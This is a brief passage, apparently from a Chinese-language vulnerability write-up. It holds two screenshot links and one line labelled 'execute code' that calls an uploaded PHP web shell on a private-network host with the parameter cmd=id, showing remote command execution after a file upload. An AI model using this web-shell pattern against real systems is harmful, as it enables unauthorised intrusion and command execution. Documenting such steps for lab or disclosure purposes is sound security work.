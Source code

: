![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/IZNZ28YysPQFrFsXLFzoOmCWaxdJsBRVSGIz0Dnemh4.png?raw=true)

执行代码`http://192.168.0.92/adminstration/upload/files/1661422518shell.php?cmd=id`

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/fuhVFWi8NKriBKGlkwobra3jUv4ZptOU_2ewu6LDXsM.png?raw=true)
